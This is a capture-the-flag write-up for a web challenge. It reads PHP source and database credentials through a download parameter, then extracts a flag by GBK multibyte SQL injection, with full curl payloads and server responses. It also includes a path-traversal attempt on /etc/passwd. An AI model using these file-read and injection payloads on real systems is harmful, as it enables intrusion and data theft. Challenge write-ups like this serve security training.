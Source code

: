 # Solution

The site lists files for download. Files `white.png` and `gray.png` have a download link that should raise eyebrows:
```
http://172.17.0.2:8080/?download=uploads/white.png
```

Supplying sample LFI payloads to the `download` parameter does not give a lot:
```
$ curl http://172.17.0.2:8080/?download=../../../../../../../../etc/passwd
<html>
	<head><title>MyCDN</title></head>
	<body>
		<h1>My Listing</h1>
		<hr>
		<table border='2'>
			<tr><th>ID</th><th>NAME</th><th>PATH</th></tr>
			<tr><td>1</td><td>white.png</td><td>uploads/white.png</td><td><a href='?download=uploads/white.png'>Download</a></td></tr><tr><td>2</td><td>gray.png</td><td>uploads/gray.png</td><td><a href='?download=uploads/gray.png'>Download</a></td></tr>		</table>
	</body>
</html>
```

But downloading `index.php` does:
```
$ curl http://172.17.0.2:8080/?download=index.php
<?php
require_once(dirname(__FILE__) . '/config.php');
require_once(dirname(__FILE__) . '/db/db.class.php');

try {
	$db = new DB($server, $username, $password, $database);
	$db->connect();
} catch (Exception $e) {
	die('Connection failed: ' . $e->getMessage());
}

if (isset($_GET['download'])) {
	$f = $_GET['download'];
	$file = realpath($f);
	$dirs = glob(dirname(__FILE__) . '/*');
	array_push($dirs, dirname(__FILE__));
	$ok = false;
	foreach ($dirs as &$d) {
		if (dirname($file) == realpath($d)) {
			$ok = true;
			break;
		}
	}
	if ($ok && file_exists($file)) {
		header('Content-Description: File Transfer');
		header('Content-Type: application/octet-stream');
		header('Content-Disposition: attachment; filename=' . basename($file));
		header('Content-Transfer-Encoding: binary');
		header('Expires: 0');
		header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
		header('Pragma: public');
		header('Content-Length: ' . filesize($file));
		ob_clean();
		flush();
		readfile($file);
		exit;
	}
}
?>
<html>
	<head><title>MyCDN</title></head>
	<body>
		<h1>My Listing</h1>
		<hr>
		<table border='2'>
			<tr><th>ID</th><th>NAME</th><th>PATH</th></tr>
			<?php
			$uploads = isset($_GET['name']) ? $db->findByName($_GET['name']) : $db->findAll();
			foreach ($uploads as &$u) {
				echo "<tr><td>$u->id</td><td>$u->name</td><td>$u->path</td><td><a href='?download=$u->path'>Download</a></td></tr>";
			}
			?>
		</table>
	</body>
</html>
```

By looking at the source code, there are two other files that are required by `index.php`:
```
$ curl http://172.17.0.2:8080/?download=config.php
<?php
$server = 'localhost';
$username = 'user';
$password = 'Strong3stP4ssw0rd-H4ckTh3Pl4n3t';
$database = 'myCDN';
?>
$ curl http://172.17.0.2:8080/?download=./db/db.class.php
<?php
require_once(dirname(__FILE__) . '/upload.class.php');

class DB {

	private $server;
	private $username;
	private $password;
	private $database;
	private $conn;
	
	function __construct($server, $username, $password, $database) {
		$this->server = $server;
		$this->username = $username;
		$this->password = $password;
		$this->database = $database;
	}
	
	function getConnection() {
		return $this->conn;
	}
	
	function connect() {
		$this->conn = new PDO("mysql:host=$this->server;dbname=$this->database", $this->username, $this->password);
		$this->conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
		$this->conn->query('SET NAMES gbk');
	}
	
	function close() {
		$this->conn = null;
	}
	
	function findAll() {
		$this->checkConnection();
		$stmt = $this->conn->prepare('SELECT id, name, path FROM uploads');
		$stmt->setFetchMode(PDO::FETCH_CLASS, 'Upload');
		$stmt->execute();
		return $stmt->fetchAll();
	}
	
	function findByName($name) {
		$this->checkConnection();
		$stmt = $this->conn->prepare('SELECT id, name, path FROM uploads WHERE name = ?');
		$stmt->setFetchMode(PDO::FETCH_CLASS, 'Upload');
		$stmt->bindValue(1, $name);
		$stmt->execute();
		return $stmt->fetchAll();
	}
	
	function __destruct() {
		$this->close();
	}
	
	private function checkConnection() {
		if ($this->conn == null) {
			throw new PDOException('not connected');
		}
	}
}
?>
```

Inspecting `db.class.php` shows that there is a preliminary query executed when connecting:
```
SET NAMES gbk
```

This query is a problem, since `mysql_real_escape` can be circumvented when `gbk` is used. You can find a lot of resources regarding this on the web.

Therefore, our next step is to perform SQLi by carefully crafting payloads for `/?name=[param]` endpoint. This can also be easily automated to extract all data.

The most important data to extract is:
```
$ curl "http://172.17.0.2:8080/?name=%bf%27%20UNION%20SELECT%201,table_name,table_schema%20FROM%20INFORMATION_SCHEMA.TABLES%20LIMIT%201%20OFFSET%2079%23"
<html>
	<head><title>MyCDN</title></head>
	<body>
		<h1>My Listing</h1>
		<hr>
		<table border='2'>
			<tr><th>ID</th><th>NAME</th><th>PATH</th></tr>
			<tr><td>1</td><td>cdnsecrets</td><td>myCDN</td><td><a href='?download=myCDN'>Download</a></td></tr>		</table>
	</body>
</html>
```

There is an additional table called `cdnsecrets`.

```
$ curl "http://172.17.0.2:8080/?name=%bf%27%20UNION%20SELECT%201,TABLE_NAME,COLUMN_NAME%20FROM%20INFORMATION_SCHEMA.COLUMNS%20LIMIT%201%20OFFSET%20780%23"
<html>
	<head><title>MyCDN</title></head>
	<body>
		<h1>My Listing</h1>
		<hr>
		<table border='2'>
			<tr><th>ID</th><th>NAME</th><th>PATH</th></tr>
			<tr><td>1</td><td>cdnsecrets</td><td>content</td><td><a href='?download=content'>Download</a></td></tr>		</table>
	</body>
</html>
```

There is an interesting column called `content` in `cdnsecrets`. Fetching data from this column gives out the flag:
```
$ curl "http://172.17.0.2:8080/?name=%bf%27%20UNION%20SELECT%201,2,content%20FROM%20cdnsecrets%20LIMIT%201%23"
<html>
	<head><title>MyCDN</title></head>
	<body>
		<h1>My Listing</h1>
		<hr>
		<table border='2'>
			<tr><th>ID</th><th>NAME</th><th>PATH</th></tr>
			<tr><td>1</td><td>2</td><td>ibctf{l4y3rs_up0n-L4Y3R-0f-w1nd_4nd_r41n-c4nn0t_s3p4r4t3-UZz}</td><td><a href='?download=ibctf{l4y3rs_up0n-L4Y3R-0f-w1nd_4nd_r41n-c4nn0t_s3p4r4t3-UZz}'>Download</a></td></tr>		</table>
	</body>
</html>
```
